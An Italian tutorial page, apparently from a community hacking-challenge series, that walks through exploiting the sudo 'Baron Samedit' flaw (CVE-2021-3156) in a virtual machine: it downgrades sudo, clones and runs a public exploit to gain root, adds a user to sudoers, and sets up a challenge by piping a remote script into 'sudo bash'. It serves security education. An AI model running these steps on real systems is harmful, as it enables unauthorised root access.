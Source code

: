 ```yaml
---
title: "Challenge 4"
summary: Benvenuto nella quarta challenge, difficoltà 🤕🤕🤕🤕. In questa challenge prenderai i panni di un _hacker_.
date: 2021-03-27
tags: ["challenge-series","challenge-4"]
---
```


[cve-2021-3156]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156
[qualys]: https://en.wikipedia.org/wiki/Qualys
[qualys-blog-post]: https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit?_ga=2.226100442.1385623629.1616771039-1815361758.1616771039
[challenge-4-setup]: ./assets/challenge-4-setup.sh

# Challenge 4 - Privilage escalation

Benvenuto nella quarta challenge, difficoltà 🤕🤕🤕🤕.
In questa challenge prenderai i panni di un _hacker_.

**Questa challenge e' a solo scopo educativo, pertanto l'autore della challenge non si assume nessuna responsabilità per l'uso che i partecipanti faranno di questa conoscenza.**

## In Questa Challenge

- Utilizzo di funzioni avanzate della shell.
- Compilare un programma da riga di comando.
- Exploitare la vulnerabilità di sudo.
- Effettuare una privilage escalation.
- Proteggersi dall'attacco.

## Introduzione

La vulnerabilità nota con il nome di _Baron Samedit_ documentata in [CVE-2021-3156][cve-2021-3156], e' una delle scoperte più scioccanti dell'ultimo decennio. _Sudo_ e' un programma preinstallato nella maggior parte dei sistemi operativi GNU/Linux, e' utilizzato per eseguire programmi da riga di comando con _permessi di root_ non essendo root. Purtroppo i programmi non sono perfetti e possono essere exploitati attraverso delle vulnerabilità. Queste vulnerabilità possono essere più o meno note al pubblico. Quando una vulnerabilità viene pubblicata gli sviluppatori si mobilitano per correggere il problema rilasciando una nuova versione.
La vulnerabilità _Baron Sameid_ e' stata presente per più di **10 anni** introdotta con un aggiornamento in _luglio 2011_, secondo il team di ricercatori della [Qualys][qualys] coloro che hanno trovato la vulnerabilità.

Exploitando la vulnerabilità permette di ottenere i _permessi di root_ completi anche non facendo parte del _gruppo sudo_. Questo avviene per un bug con il comando `sudoedit -s`. Per maggiori informazioni riguardo alla vulnerabilità visita il [blog post][qualys-blog-post] sul sito di Qualys.

## Proof Of Concept

Per testare questo exploit assicurati di essere in un ambiente sicuro. Guarda la [Challenge 1][challenge-1] per sapere come installare velocemente una macchina virtuale.

Prima di tutto bisogna installare una versione di _sudo_ che contenga il bug.
Fai il downgrade di _sudo_

``` shell
sudo apt install sudo=1.8.31-1ubuntu1
```

E' possibile che la macchina non abbia i programmi necessari per compilare il codice. Installali

``` shell
sudo apt install build-essential
```

Avendo già i _permessi di root_ come utente attuale non ha senso eseguire l'exploit ora. Crea un nuovo utente

``` shell
sudo adduser test-exploit
```

> Inserisci una password e premi `invio` al resto dei i prompt.

Accedi come l'utente `test-exploit`

``` shell
su test-exploit
```

Verifica che il nuovo utente non sia uno _sudoer_

``` shell
sudo -v
```

> L'output dovrebbe essere: _Sorry, user test-exploit may not run sudo on ubuntu-204_.

Verifica che non abbia privilegi di root

``` shell
touch /etc/test
```

> L'output dovrebbe essere: _touch: cannot touch '/etc/test': Permission denied_.

Su GitHub esistono diverse implementazioni dell'exploit. Guardare il codice sorgente di queste implementazioni e' un ottimo modo per imparare.
Scarica l'exploit

``` shell
git clone https://github.com/blasty/CVE-2021-3156 
```

Compila il programma

``` shell
cd CVE-2021-3156/
make
```

Esegui l'exploit

``` shell
./sudo-hax-me-a-sandwich 1
```

Verifica che tua abbia i _permessi di root_ creando un file in `/etc`

``` shell
touch /etc/test
ls -l /etc/t*
```

Aggiungi l'utente `test-exploit` tra i _sudoers_

``` shell
adduser text-exploit sudo
```

Da ora in poi l'utente `text-exploit` fa parte del gruppo `sudo` quindi potrà eseguire comandi con _permessi di root_.

Per provare che le modifiche siano avvenute veramente e che non e' stato un trucco, riavvia la macchina, accedi come utente `text-exploit` ed inizia ad usare i nuovi super poteri.

## Riassunto

- Cos'è la vulnerabilità _Baron Samedit_.
- Come fare il downgrade di un pacchetto.
- Come creare un nuovo utente.
- Come compilare un programma.
- Come ottenere i _permessi di root_ attraverso un exploit.
- Come aggiungere un'utente al gruppo _sudo_.

## Challenge

Dato l'accesso ad una macchina come utente `challenge-4` con  solo due permessi, l'esecuzione del comando `exit` e dell'editor `vi`. Attraverso una _privilage escalation_ crea il file `/etc/hacked.txt` con all'interno il testo `Sei stato hackerato`.

Prima di iniziare la challenge prepara la macchina. Crea un nuovo utente  `challenge-4` ed esegui [questo script][challenge-4-setup] con _permessi di root_. Lo script configura adeguatamente l'utente `challenge-4` per la challenge e prende in input due argomenti,l'utente e l'hostname.

``` shell
sudo adduser challenge-4
curl https://gitlab.com/pdpfsug/mkspace/challenges/-/raw/master/challenge-4/assets/challenge-4-setup.sh | sudo bash -s challenge-4 challenge-ubuntu
su -l challenge-4
```

- `curl https://gitlab.com/pdpfsug...` serve a scaricare lo script.
- `sudo bash -s challenge-4 challenge-ubuntu` serve ad eseguire lo script.
  - `challenge-4` e' l'utente che hai creato.
  - `challenge-ubuntu` e' il hostname della tua macchina. Per visualizzare l'hostname della tua macchina usa il comando `hostname`. 

> Buona fortuna.
